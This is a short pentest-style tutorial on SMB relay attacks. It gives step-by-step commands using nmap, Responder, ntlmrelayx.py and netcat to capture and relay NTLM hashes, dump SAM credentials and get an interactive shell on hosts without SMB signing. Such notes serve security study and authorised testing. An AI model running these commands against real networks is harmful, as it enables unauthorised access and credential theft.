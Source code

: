 # SMB Relay

**SMB Relay**:

Instead of having to crack the hash we gathered from responder we can relay those hashes to specific machines to potentially gain access

For SMB relay to work there are some requirements that must be met. 

- [ ]  SMB signing must be disabled or not enforced on the target
- [ ]  Relayed user credentials must be admin on machine for any real value

To identify hosts without SMB signing run the premade script built into NMAP

```jsx
nmap --script=smb2-security-mode.nse -p445 <ip address> -Pn
```

-Pn will still probe the machine if ping does not work. -Pn treats the device as alive still

Step 1: Change the .conf file for Responder

```jsx
sudo mousepad /etc/responder/Responder.conf
```

SMB = OFF

HTTP = OFF

Step 2: Run Responder

```jsx
sudo responder -I eth0 -dwP
```

Step 3: Set up the Relay

```jsx
sudo ntlmrelayx.py -tf <target file> -smb2support
```

```jsx
sudo ntlmrelayx.py -tf <target file> -smb2support -i
```

The -i after allows for an interactive mode. With this you can locally netcat into the device and explore the system.

Step 4: Event occurs

Step 5: The Compromise

After an event occurs you will see in your CLI that the SAM has been dumped onto your screen and there will be all the usernames and hashes of that system.

If the -i was used for interactive mode create a new tab and enter the command below to begin exploring the system

```jsx
nc 127.0.0.1 11000
```

/